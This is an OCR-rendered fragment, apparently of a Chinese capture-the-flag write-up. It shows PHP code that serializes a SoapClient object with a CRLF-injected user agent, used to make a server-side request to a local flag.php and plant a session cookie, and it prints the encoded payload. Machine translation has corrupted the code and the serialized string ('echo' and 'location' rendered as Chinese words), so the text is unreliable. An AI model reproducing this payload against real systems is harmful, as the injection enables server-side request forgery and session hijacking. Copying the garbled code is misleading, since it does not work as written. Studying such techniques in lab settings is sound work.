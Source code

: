     1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
      
    $target = "http://127.0.0.1/flag.php" ;   
    $attack = new SoapClient( null , array ( 'location' => $target , 'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n" , 'uri' => "123" )); $payload = urlencode(serialize( $attack )); 回声$payload ;  
          
          
      
       
      
  
---|---  
  
`  
`

`生成有效载荷：`

`  
`

``

`PHP`

``

    
    
    1  
    

|

    
    
    O% 3 A10% 3 A% 22 SoapClient% 22 % 3 A4% 3 A% 7 Bs% 3 A3% 3 A% 22 uri% 22 % 3 Bs% 3 A3% 3 A% 22123 % 22 % 3 Bs% 3 A8% 3 A% 22位置% 22 % 3 Bs% 3 A25% 3 A% 22 http% 3 A% 2 F% 2F127 .0 .0 .1 % 2 Fflag.php% 22 % 3 Bs% 3 A11% 3 A% 22 _user_agent% 22 % 3 Bs% 3 A56% 3 A% 22 N0rth3ty% 0 D% 0 ACookie% 3 A+ PHPSESSID% 3 Dtcjr6nadpk3md7jbgioa6elfk4% 0 D% 0 A% 22 % 3 Bs% 3 A13% 3 A% 22 _soap_version% 22 % 3双% 3 A1% 3 B% 7 D  
      
  
---|---  
  
`  
`

`这里POC就是利用CRLF晚上这个本地请求SSRF去访问flag.php，将得到的flag结果保存在cookie为`PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4`会话中。`
